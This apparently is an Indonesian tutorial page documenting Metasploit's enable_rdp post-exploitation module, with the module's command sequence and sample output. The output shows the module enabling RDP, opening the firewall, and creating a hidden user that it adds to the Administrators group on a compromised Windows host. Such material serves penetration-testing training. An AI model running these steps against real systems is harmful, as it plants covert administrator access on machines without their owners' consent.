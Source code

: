 # enable_rdp

Modul `enable_rdp` di Metasploit adalah modul `post-exploitation` untuk sistem Windows yang digunakan untuk mengaktifkan fitur Remote Desktop Protocol (RDP) pada komputer target.

## Cara Penggunaan di Metasploit

```
use post/windows/manage/enable_rdp
set ENABLE true
set FORWARD false
set LPORT 3389
set PASSWORD <PASSWORD>
set SESSION <ID>
set USERNAME <USERNAME>
set VERBOSE true
run
```

Hasil output-nya seperti ini:

```
[*] Enabling Remote Desktop
[*] 	RDP is already enabled
[*] Setting Terminal Services service startup mode
[*] 	Terminal Services service is already set to auto
[*] 	Opening port in local firewall if necessary
[*] Setting user account for logon
[*] 	Adding User: fixploit03 with Password: fixploit03
[*] 	Adding User: fixploit03 to local group 'Remote Desktop Users'
[*] 	Hiding user from Windows Login screen
[*] 	Adding User: fixploit03 to local group 'Administrators'
[*] You can now login with the created user
[*] For cleanup execute Meterpreter resource file: /root/.msf4/loot/20250516221529_default_192.168.1.52_host.windows.cle_571851.txt
[*] Post module execution completed
```
